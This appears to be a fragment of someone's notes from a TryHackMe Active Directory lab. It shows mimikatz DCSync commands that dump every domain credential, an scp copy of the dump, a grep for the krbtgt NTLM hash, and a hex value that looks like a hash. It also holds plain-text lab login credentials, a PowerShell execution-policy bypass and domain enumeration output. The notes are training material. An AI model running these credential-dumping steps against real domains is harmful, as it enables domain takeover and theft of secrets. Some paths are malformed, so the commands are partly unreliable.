 ```powershell
C:\Tools\mimikatz_trunk\Win32\mimikatz.exe 'lsadump::dcsync /domain:za.tryhackme.loc /all' > dcsyncall.txt
```

```bash
scp $adminUser@$AD@thmwrk1.$AD:C:/Users/Administrator.ZA/.txt .
cat jason.jackson_dcdump.txt | grep -A10 krbtgt | grep NTLM
```

> lsadump::dcsync /domain:za.tryhackme.loc /user:test

> 16f9af38fca3ada405386b3b57366082

## Task 3


```shell
export AD=za.tryhackme.loc
export USERNAME=jason.jackson
export PASSWORD=Racer2018


ssh $AD\\$USERNAME@thmwrk1.$AD
```

```powershell
powershell.exe -ep bypass

Get-ADDomain

AllowedDNSSuffixes                 : {}                                                                                          
ChildDomains                       : {}                                                                                          
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc                                                      
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc                                                
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc                                                                   
DNSRoot                            : za.tryhackme.loc                                                                            
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc                                             
DomainMode                         : Windows2012R2Domain                                                                         
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185                                                   
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc                                      
Forest                             : tryhackme.loc                                                                               
InfrastructureMaster               : THMDC.za.tryhackme.loc                                                                      
LastLogonReplicationInterval       :                                                                                             
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc} 
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc                                                   
ManagedBy                          :                                                                                             
Name                               : za                                                                                          
NetBIOSName                        : ZA                                                                                          
```